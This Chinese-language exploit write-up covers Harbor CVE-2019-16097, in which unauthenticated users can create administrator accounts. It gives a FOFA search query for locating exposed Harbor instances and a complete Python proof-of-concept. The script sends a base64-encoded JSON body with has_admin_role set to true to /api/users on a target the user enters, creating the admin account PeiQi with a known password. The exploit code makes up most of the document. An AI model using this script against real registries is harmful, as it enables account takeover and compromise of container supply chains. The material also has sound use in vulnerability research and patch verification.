 # Harbor 未授权创建管理员漏洞 CVE-2019-16097

## 漏洞描述

近日，镜像仓库Harbor爆出任意管理员注册漏洞，攻击者在请求中构造特定字符串，在未授权的情况下可以直接创建管理员账号，从而接管Harbor镜像仓库。我们得到消息，第一时间对该漏洞进了验证，官方已发布公告说明，最新的1.7.6和1.8.3已修复此漏洞，请使用到的用户尽快升级至安全版本。

Harbor是一个用于存储和分发Docker镜像的企业级Registry服务器。Harbor 1.7.0版本至1.8.2版本中的core/api/user.go文件存在安全漏洞。攻击者通过在请求中添加关键参数，即可利用该漏洞创建管理员账户，从而接管Harbor镜像仓库。

## 漏洞影响

> [!NOTE]
>
> Harbor 1.7.0版本至1.8.2版本

## FOFA

> [!NOTE]
>
> title="Harbor"

## 漏洞复现

登录页面如下

![](image/har-1.png)

向**/api/user** 接口发送创建用户的请求, 状态码返回201即创建成功

![](image/har-3.png)

使用创建的账户成功登录后台

![](image/har-2.png)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: Harbor 1.7.0至1.8.2                                       \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/api/users"
    data = base64.b64decode("eyJ1c2VybmFtZSI6IlBlaVFpIiwiZW1haWwiOiJQZWlRaUBxcS5jb20iLCJyZWFsbmFtZSI6IlBlaVFpIiwicGFzc3dvcmQiOiJQZWlRaVBlaVFpIiwiY29tbWVudCI6IjEiLCJoYXNfYWRtaW5fcm9sZSI6dHJ1ZX0=")
    headers = {"Content-Type": "application/json", "Accept": "application/json"}
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/api/users..... \033[0m".format(target_url))
        if response.status_code == 201:
            print("\033[32m[o] 目标 {} 存在漏洞\033[0m".format(target_url))
            print("\033[32m[o] 成功创建账号:PeiQi 密码:PeiQiPeiQi\033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](image/har-4.png)